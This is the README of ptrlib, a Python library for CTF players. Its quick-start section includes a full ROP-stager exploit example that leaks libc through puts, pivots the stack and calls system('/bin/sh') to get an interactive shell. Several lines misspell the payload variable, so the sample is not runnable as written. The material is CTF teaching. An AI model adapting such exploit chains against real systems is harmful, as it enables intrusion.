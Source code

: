 ptrlib
====

![Python application](https://github.com/ptr-yudai/ptrlib/workflows/Python%20application/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Requirements
Supports: Python 3.x

Library Dependency:
- pycryptodome

External Program:
- When you use `SSH` function, the following programs are required:
  - ssh (Default path: `/usr/bin/ssh`)
  - expect (Default path: `/usr/bin/expect`)

## Usage
Basic examples are available at [/examples](https://bitbucket.org/ptr-yudai/ptrlib/src/master/examples/).

## Quick Document
There are many functions in ptrlib but let's see how to use it for pwn.
You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
```
If you have the target binary or libc, it's recommended to load the binary first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
And you can use useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is the pwn example of ROP stager.
```python
got_puts = elf.got("puts")
plt_puts = elf.plt("puts")
plt_gets = elf.plt("gets")
stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += p64(rop_pop_rdi)
payload += p64(got_puts)
payload += p64(plt_puts)
payload += p64(rop_pop_rdi)
payload += p64(stage2)
payload += p64(plt_gets)
paylaod += p64(rop_pop_rbp)
paylaod += p64(stage2)
payload += p64(rop_leave_ret)
sock.sendlineafter("Data: ", payload)

libc_base = u64(sock.recvline()) - libc.symbol("puts")
logger.info("libc base = " + hex(libc_base))
payload = b'A' * 8
paylaod += p64(rop_pop_rdi)
payload += p64(libc_base + next(libc.find("/bin/sh")))
payload += p64(libc_base + libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
